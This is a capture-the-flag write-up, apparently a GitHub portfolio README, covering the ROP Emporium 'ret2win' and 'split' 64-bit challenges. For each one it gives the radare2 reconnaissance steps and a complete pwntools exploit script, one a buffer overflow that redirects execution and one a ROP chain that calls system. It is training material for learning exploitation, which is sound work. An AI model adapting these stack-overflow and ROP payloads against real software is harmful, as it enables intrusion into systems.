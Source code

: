 # ROP EMPORIUM

***

| Challenge          | Walkthrough                                                                                   |
| ------------       | --------                                                                                      |
| [Ret2Win](#ret2win)| [pdf](https://github.com/jpowellroot/Pwnfolio/blob/master/ROP_Emporium/Writeups/Ret2win64.pdf)|
| [Split](#split)    | [pdf](https://github.com/jpowellroot/Pwnfolio/blob/master/ROP_Emporium/Writeups/Split64.pdf)  |                                                                                     
| CallMe             |                                                                                               |
| Write4             |                                                                                               |

***

## RET2WIN 64 bit<a name="ret2win"></a>

> ### 1. Problem
>> In this challenge, there is a function called ret2win located somewhere
>> in the binary which can be used to cat the flag.txt file. The goal is to:
>>
>>> - [ ] Find offset of the ret2win function
>>>
>>> - [ ] Find out the buffer length
>>>
>>> - [ ] Overflow the buffer and overwrite `$rsp` with the ret2win address offset

> ### 2. Solution
>> - [X] Find offset of the ret2win function
>>> I used the `> afl` command in radare2 to list the functions with their offsets.
>>> This showed me that the ret2win function was located at address 0x00400756.
>>>
>> - [X] Find out the buffer length
>>> In the ROP Emporium challenges all of the buffers are 40 bytes long.
>>>
>> - [X] Overflow the buffer and overwrite `$rsp` with the ret2win address offset
>>> I used a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0x00400756)

payload = padding
payload += ret2win

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recvall()

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***

## SPLIT 64 bit<a name="split"></a>

> ### 1. Problem
>> In the split challenge, there exists a function that calls system along with
>> the string `/bin/cat flag.txt` which is all that is needed to get the flag. The 
>> twist is that they are split apart and need to be brought together. The goal here is to:
>>
>>> - [ ] Find the address offset of the system call
>>>
>>> - [ ] Find the address offset of the `/bin/cat flag.txt` string
>>>
>>> - [ ] Find a ROP gadget that can pop our string into `$rdi`
>>>
>>> - [ ] Overflow the buffer, overwrite `$rsp` and execute the exploit

> ### 2. Solution
>> - [X] Find the address offset of the system call
>>> Here I used the `> afl` command in radare2 to list the functions. From there I navigated to 
>>> the *usefulFunction* using `>  usefulFunction` followed by a `> pdf` command to disassemble
>>> the function. This gave me the address of the system call.
>>>
>> - [X] Find the address offset of the `/bin/cat flag.txt` string
>>> I used the `> iz` command in radare2 to print a list of strings in the binary. From here I 
>>> was able to find the address of the `/bin/cat flag.txt` string.
>>>
>> - [X] Find a ROP gadget that can pop our string into `$rdi`
>>> The `> /R pop rdi;` command in radare2 searches through the binary and lists all ROP gadgets
>>> that have the `pop $rdi` instruction. This gave me the address to the gadget.
>>>
>> - [X] Overflow the buffer, overwrite `$rsp` and execute the exploit
>>> As always, I created a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('split')  # setting up the envronment
context.log_level = 'debug'       

usefulstring = p64(0x601060)         # 'cat flag.txt' string
systemaddr = p64(0x40074b)           # call to system in usefulFunction
rop = p64(0x4007c3)                  # pop rdi; ret;
padding = cyclic(40)

payload = padding                    # junk to fill up buffer
payload += rop                       # pops '/bin/cat flag.txt' into rdi
payload += usefulstring              # string to be as the argument
payload += systemaddr                # call to system in useful function

io = process(elf.path)
io.sendline(payload)                 # sends payload
io.wait_for_close()                  
flag = io.recvall()
print(flag)

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***
